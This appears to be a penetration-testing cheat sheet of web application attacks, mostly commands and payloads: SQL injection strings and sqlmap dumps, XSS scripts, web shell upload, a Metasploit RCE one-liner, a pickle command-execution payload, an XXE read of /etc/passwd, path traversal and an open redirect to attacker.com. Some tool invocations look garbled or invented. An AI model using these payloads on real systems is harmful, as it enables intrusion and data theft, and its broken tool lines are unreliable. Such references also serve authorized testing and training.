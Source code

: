 ```yaml
---
layout: notes
permalink: /notes/web/vulns/
title: Web Application Common Vulnerabilities
---
```


# Web Application Common Vulnerabilities

## SQL Injection
```bash
# Test basic SQLi
curl "http://example.com/login?user=admin' OR 1=1 -- &pass="

# Use sqlmap
sqlmap -u http://example.com/login --data="user=admin&pass=test" --level=3 --risk=3

# Blind SQLi with time-based
sqlmap -u http://example.com/login --technique=T --dbms=mysql

# Extract data
sqlmap -u http://example.com/login --dump

# Union-based
curl "http://example.com/search?q=' UNION SELECT 1,2,3 --"
```

## Cross-Site Scripting (XSS)
```bash
# Reflected XSS test
<script>alert('XSS')</script>

# Stored XSS in form
<input type="text" value="<script>alert('XSS')</script>">

# DOM-based XSS
window.location.href="javascript:alert('XSS')"

# Use XSS Hunter
xsshunter -u http://example.com

# Automate with XSStrike
xsstrike -u http://example.com/search
```

## Cross-Site Request Forgery (CSRF)
```bash
# Test CSRF with curl
curl -X POST http://example.com/action -d "param=value"

# Generate CSRF PoC
csrfgen -u http://example.com -o csrf.html

# Check token absence
curl -I http://example.com/action

# Automate CSRF detection
arachni http://example.com --report=csrf
```

## Remote Code Execution (RCE)
```bash
# Test basic RCE
curl "http://example.com/cmd?input=whoami"

# Use Metasploit for RCE
msfconsole -x "use exploit/multi/http/rce; set RHOSTS example.com; exploit"

# Upload and execute shell
curl -F "file=@shell.php" http://example.com/upload

# Check for deserialization
ysoserial -d CommonsCollections1 -o payload.ser
java -jar ysoserial.jar CommonsCollections1 "touch /tmp/pwned" > payload.ser
```

## Other Vulnerabilities
```bash
# Directory Traversal
curl "http://example.com/download?file=../../etc/passwd"

# File Inclusion
curl "http://example.com?page=php://filter/convert.base64-encode/resource=index.php"

# Insecure Deserialization
python -c 'import pickle; data=pickle.loads(b"cos\\nsystem\\n(S'whoami'\\ntR."); print(data)'

# XML External Entity (XXE)
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>

# Open Redirect
curl "http://example.com/redirect?url=http://attacker.com"
```

## Tools
- sqlmap: ```sqlmap -u http://example.com```
- XSStrike: ```xsstrike -u http://example.com```
- Arachni: ```arachni http://example.com```
- Nikto: ```nikto -h http://example.com```
- OWASP ZAP: ```zap-cli -t http://example.com```
- ysoserial: ```ysoserial -d CommonsCollections1```
- wpscan: ```wpscan --url http://example.com```